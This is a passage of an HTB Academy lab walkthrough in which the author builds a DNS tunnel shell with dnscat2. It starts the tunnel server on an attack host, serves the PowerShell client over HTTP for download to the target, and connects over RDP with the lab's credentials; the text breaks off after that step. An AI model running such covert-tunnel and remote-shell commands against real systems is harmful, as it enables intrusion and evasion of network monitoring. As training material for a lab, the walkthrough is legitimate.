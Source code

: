 ```bash
Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

---

## **6. HTB Academy Lab Exercise**

### **Lab Challenge**
**"Using the concepts taught in this section, connect to the target and establish a DNS Tunnel that provides a shell session. Submit the contents of C:\Users\htb-student\Documents\flag.txt as the answer."**

### **Complete Solution Steps**

#### **Step 1: Setup Dnscat2 Server**
```bash
# On Pwnbox/Attack Host - install from system packages
sudo apt update
sudo apt install dnscat2

# Start server (replace IP with your Pwnbox IP)
sudo dnscat2-server --dns host=10.10.14.18,port=53,domain=htblabs.local --no-cache

# Alternative if using manual setup:
# git clone https://github.com/iagox86/dnscat2.git
# cd dnscat2/server/
# sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=htblabs.local --no-cache

# Note the generated pre-shared secret!
# Example: 0ec04a91cd1e963f8c03ca499d589d21
```

#### **Step 2: Download PowerShell Client**
```bash
# Clone PowerShell client
git clone https://github.com/lukebaggett/dnscat2-powershell.git

# Start HTTP server to serve client
cd dnscat2-powershell/
python3 -m http.server 8000
```

#### **Step 3: Connect to Target Windows Host**
```bash
# RDP to target Windows machine
xfreerdp /v:<target_ip> /u:htb-student /p:HTB_@cademy_stdnt! /cert:ignore
```
